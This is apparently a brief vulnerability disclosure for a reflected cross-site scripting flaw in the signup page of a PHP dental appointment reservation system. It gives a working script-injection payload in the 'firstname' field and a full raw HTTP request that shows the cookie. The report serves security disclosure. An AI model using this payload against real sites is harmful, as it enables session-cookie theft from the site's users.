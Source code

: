 Dental Clinic Appointment Reservation System v1.0 has Cross-site scripting (reflected)

BUG_Author:niclo

Website source address:https://www.sourcecodester.com/php/6848/appointment-reservation-system.html

Vulnerability File: /APR/signup.php

POST parameter 'firstname' exists XSS vulnerability

Payload:firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h

```
POST /APR/signup.php HTTP/1.1
Host: localhost
Content-Length: 174
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/APR/signup.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=k65tutg8g9o2qq8lc3vsi85rn7
Connection: close

firstname=a"><script>alert(document.cookie)</script>&lastname=b&middlename=c&gender=Male&age=1&username=g&password=h&submit=&address=d&contact_no=e&email=f&code=j&cpassword=h
```

print cookie successfully

![image](https://github.com/nightcloudos/picture/blob/main/cookie.png)
